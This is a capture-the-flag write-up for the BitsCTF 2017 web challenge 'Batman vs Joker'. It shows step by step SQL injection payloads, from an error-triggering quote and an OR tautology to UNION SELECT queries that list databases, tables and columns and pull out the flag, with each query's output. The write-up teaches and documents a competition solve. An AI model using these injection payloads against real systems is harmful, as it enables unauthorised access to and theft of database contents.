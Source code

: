 _[<<< Return to BitsCTF 2017 tasks and writeups](/2017-bitsctf)_
# Batman vs Joker (Web, 30 points)

>Joker has left a message for you.
Your job is to get to the message asap. joking.bitsctf.bits-quark.org

This challenge looks like the "low" level of
[Damn Vulnerable Web Application](http://www.dvwa.co.uk/).

This website allows us to query the "CIA Ofiicial Records" (sic) by entering an id in the textbox.

```
>>> id: 1
First name:Harry
Surname: Potter
```

```
>>> id: 2
First name:Hermione
Surname: Granger
```

```
>>> id: 3
First name:Ronald
Surname: Weasley
```

```
>>> id: 4
First name:Joker
Surname: Joker
```

Now let's try some basic [SQL injections](https://www.owasp.org/index.php/SQL_Injection).

```
>>> id: 1'
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' Limit 1' at line 1
```

```
>>> id: 1' OR '1'='1'#
First name:Harry
Surname: Potter

First name:Hermione
Surname: Granger

First name:Ronald
Surname: Weasley

First name:Joker
Surname: Joker
```

Name of all the databases?

```
>>> id: ' UNION SELECT 1, schema_name FROM INFORMATION_SCHEMA.SCHEMATA#
First name:1
Surname: information_schema

First name:1
Surname: hack

First name:1
Surname: mysql

First name:1
Surname: performance_schema
```

Name of tables in the 'hack' database?

```
>>> id: ' UNION SELECT 1, table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='hack'#
First name:1
Surname: CIA_Official_Records

First name:1
Surname: Joker
```

Name of columns in the 'Joker' table?

```
>>> id: ' UNION SELECT 1, column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Joker'#
First name:1
Surname: Flag

First name:1
Surname: HaHaHa
```

Let's grab the flag and the points!

```
>>> id: ' UNION SELECT Flag, HaHaHa from Joker#
First name:BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
Surname: Enjoying the game Batman!!!
```
